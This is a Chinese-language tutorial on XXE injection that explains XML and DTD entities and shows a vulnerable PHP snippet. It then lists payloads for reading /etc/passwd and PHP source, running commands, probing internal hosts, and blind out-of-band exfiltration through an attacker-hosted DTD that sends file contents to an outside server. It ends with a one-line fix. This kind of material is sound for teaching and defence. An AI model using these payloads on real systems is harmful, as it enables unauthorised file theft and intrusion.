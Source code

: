 # XXE漏洞

[传送门](https://www.cnblogs.com/20175211lyz/p/11413335.html)

**漏洞原理**

XML被设计为传输和存储数据，XML文档结构包括XML声明、DTD文档类型定义(可选)、文档元素，其焦点是数据的内容，其把数据从HTML分离，是独立于软件和硬件的信息传输工具。**XXE漏洞全称XMLExternal Entity Injection，即xml外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站等危害**





**XXE是XML外部实体(XML External Entity)注入的简称，在OWASP TOP 10 中位居A4，属于严重级别的漏洞，此攻击可能导致任意文件读取，远程代码执行，拒绝服务，SSRF，内网端口探测等**

![img](https://cdn.nlark.com/yuque/0/2021/png/2476579/1629946396091-c96807bc-763f-4bd0-995f-107756606642.png?x-oss-process=image%2Fresize%2Cw_750%2Climit_0)





XML是可扩展性标记语言，类似HTML的标记语言，但标签是自定义的。DTD是文档类型定义，用来为XML文档定义语义约束可以在xml文件中声明，也可以在外部引用
XML文件结构:

```xml
<? xml version="1.0" encoding="utf-8"?>
DTD部分（可选）
<root>Test</root>
```



# **支持的协议**

![Untitled.png](https://img-blog.csdnimg.cn/img_convert/8477879a23c77446bd804052a90cf64d.png)











# DTD引用和实体声明

- DTD内部声明：`<!DOCTYPE 根元素 [实体声明]>`
- DTD外部引用：`<!DOCTYPE 根元素名称 SYSTEM “外部DTD的URL”>`
- DTD内部实体声明：`<!ENTITY 实体名称 “实体的值”>`
- DTD外部实体声明：`<!ENTITY 实体名称 SYSTEM “URI/URL”>`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY name "XXE test">]>
<root>&name;</root>
```









# 漏洞原因

- 没有过滤用户提交的XML数据
- 使用的开发语言可以解析XML外部实体，如PHP环境中libxml库=》2.9.0默认启用了外部实体

**PHP漏洞示例代码**

```php
<? php
$xml=isset($_POST['xxe'])?simplexml_load_string($_POST['xxe']):" ";
print_r($xml)
?>
```





# 漏洞常见位置

- 涉及到提交XML数据的功能处
- XML文件上传处
- office文档上传预览处
- 某些json格式传递数据的地方，可以修改其Content-Type为application/xml,并尝试进行XXE注入





# 有回显payload

找到上传XML文件，引用外部XML文件或提交XML数据的位置，提交以下数据：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY name "XXE test">]>
<root>&name;</root>
```

**页面返回XXE test字符说明存在xxe漏洞**，如图：



![Untitled 2.png](https://img-blog.csdnimg.cn/img_convert/08ad7a0862aa2a81b8ddc54b3d0cff37.png)



# 读取任意文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY name SYSTEM "file:///etc/passwd">]>
<root>&name;</root>
----------------------------------------------------------
读取php文件
<!DOCTYPE root [
<!ENTITY name SYSTEM "php://filter/convert.base64-encode/resource=index.php">]>     //使用了php伪协议，并使用base64加密了
```

**读取/etc/passwd文件如图**：

![Untitled 3.png](https://img-blog.csdnimg.cn/img_convert/b989c9bdae961e7709ddfe8ebc2241d0.png)

**读取php文件，如图：**

![Untitled 4.png](https://img-blog.csdnimg.cn/img_convert/e1de79f80de7b392d8ad53f0afba212a.png)*







# 命令执行

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY name SYSTEM "except://ls">]>    //liunx系统ls命令
<root>&name;</root>
```



![Untitled7.png](https://img-blog.csdnimg.cn/img_convert/c819e19071455e5730bdc20ab2311441.png)





# 内网探测

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY name SYSTEM "http://192.168.1.1">]>
<root>&name;</root>
```





# 无回显Payload

利用DNSLog检测

```xml
<?xml version=”1.0” encoding=”UTF-8”?>  
<!DOCTYPE ANY [
<!ENTITY name SYSTEM "http://h99ddx.dnslog.cn/eval.xml">]>      
 <root>&name;</root>
```





![Untitled 6.png](https://img-blog.csdnimg.cn/img_convert/244736da3e71b40001f3edea81e0069e.png)



或者

```xml
<?xml version = "1.0"?>
<!DOCTYPE test [
		<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/test.txt">
		<!ENTITY % dtd SYSTEM "http://192.168.xx.xxx:80XX/test.dtd">
		%dtd;
		%send;
]>


test.dtd:
<!ENTITY % payload
	"<!ENTITY &#x25; send SYSTEM
'http://192.168.xx.xxx:80xx/?data=%file;'>"
>
%payload;
```

**上面的url一般是自己的网站，通过第一步访问文件，然后再访问dtd文件，把读取到的数据赋给data，然后我们只需要再自己的网站日志，或者写个php脚本保存下来，就能看到读取到的文件数据了**





# 外部实体注入

Payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % remote SYSTEM "http://192.168.142.1:8888/evil.xml">     //引用了外部的文件
%remote;
%all;
%send;
]>
<root>&name;</root>
```

**evil.xml文件内容**

```xml
<!ENTITY % all "<!ENTITY % send SYSTEM 'http://192.168.142.1:8888/1.php?file=%file;'>">
```





# 修复方式

禁用外部实体